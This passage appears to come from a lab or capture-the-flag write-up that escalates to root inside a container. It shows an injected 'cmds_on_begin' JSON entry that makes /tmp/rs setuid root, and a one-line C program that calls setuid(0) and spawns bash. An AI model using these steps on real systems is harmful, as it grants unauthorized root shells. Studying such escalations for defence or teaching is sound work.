 ![](images/ss_term_tmp.png)

YES! We executed code as `root`!

In order to turn the above findings into a `root` shell, we will create a small binary `/tmp/rs` whose only purpose is change effective user to `root` and then execute bash. We use the `cmds_on_begin` hack to make it `setuid root`. Then we can just launch the executable and have a `root` shell.

New command in our modified `/tmp/question_answers.json`:
```json ln:8
 "cmds_on_begin": [ "chown root.root /tmp/rs && chmod u+s /tmp/rs" ],
```

The container even comes with some development tools, like the `gcc` compiler. We just create a minimal `.c` file and compile it:
```bash ln:false
echo 'main() { setuid(0); setgid(0); system("bash"); }' > rs.c
make rs
```

![](images/ss_term_make_rs.png)

The compiler cries a bit because we didn't `return`something from the `main` function, and use functions implicitly without declaring them (something normally done with `#include` statements, for example `#include <unistd.h>`), but it happily builds the executable anyway.
